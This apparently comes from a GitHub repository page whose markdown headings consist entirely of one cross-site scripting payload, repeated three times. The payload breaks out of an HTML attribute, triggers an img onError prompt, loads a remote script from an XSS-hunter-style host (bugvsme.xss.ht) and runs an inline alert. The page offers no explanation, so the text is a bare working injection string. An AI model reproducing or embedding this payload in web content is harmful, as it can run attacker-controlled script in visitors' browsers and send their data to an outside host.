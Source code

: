 # "><img src=x onError=prompt(1)>"><script src=https://bugvsme.xss.ht></script>"<script>alert(0)</script>

## "><img src=x onError=prompt(1)>"><script src=https://bugvsme.xss.ht></script>"<script>alert(0)</script>

### 

"><img src=x onError=prompt(1)>"><script src=https://bugvsme.xss.ht></script>"<script>alert(0)</script>

